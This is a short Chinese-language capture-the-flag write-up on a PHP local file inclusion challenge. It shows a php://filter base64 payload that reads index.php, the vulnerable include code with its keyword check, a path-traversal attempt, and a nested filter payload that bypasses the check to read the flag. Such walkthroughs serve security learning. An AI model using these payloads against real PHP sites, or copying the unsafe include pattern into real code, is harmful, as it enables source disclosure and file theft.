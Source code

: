 首先利用PHP伪协议读取index.php源代码  
payload如下：

```perl
php://filter/read=convert.base64-encode/resource=index
```

结果如图所示  
![](https://img2020.cnblogs.com/blog/1965233/202009/1965233-20200906222205008-946306717.png)  
源代码如下

```php
<?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
```

利用include函数尝试包含flag

```bash
index.php?category=woofers/../flag
```

发现没有读出来任何东西，但是源码里有这样一个提示  
![](https://img2020.cnblogs.com/blog/1965233/202009/1965233-20200906222449908-1276131.png)

#### 新知识点！

php://filter伪协议可以套一层协议，就像：

```bash
php://filter/read=convert.base64-encode/woofers/resource=flag
```

这样提交的参数既有woofers又包含了flag  
最后得到flag  
![](https://img2020.cnblogs.com/blog/1965233/202009/1965233-20200906222805663-2131064713.png)







![[Pasted image 20231226222716.png]]


